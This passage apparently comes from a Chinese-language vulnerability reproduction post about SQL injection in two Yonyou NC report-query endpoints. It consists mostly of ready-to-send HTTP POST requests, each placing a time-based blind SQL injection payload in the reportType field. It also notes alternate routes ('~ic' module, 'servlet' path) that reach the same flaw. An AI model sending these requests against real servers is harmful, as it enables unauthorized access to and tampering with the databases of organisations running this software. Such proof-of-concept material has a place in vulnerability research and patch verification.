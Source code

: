 代码差不多，只不过传参需要改一下。

### 漏洞复现

**KeyWordDetailReportQuery接口：**

[![](assets/1704848456-58f629e774087b910aecccc91db232cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240109174822-3a28bbe6-aed4-1.png)

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

或者用通用 ic 模块，当然 用友的路由把 `service`换成`servlet`也是可以的。

```plain
POST /service/~ic/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","keyword":[]}
```

**KeyWordReportQuery接口：**

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.KeyWordReportQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

{"reportType":"1';waitfor delay '0:0:3'-- ","pageInfo":{"currentPageIndex":1,"pageSize":1},"keyword":[]}
```
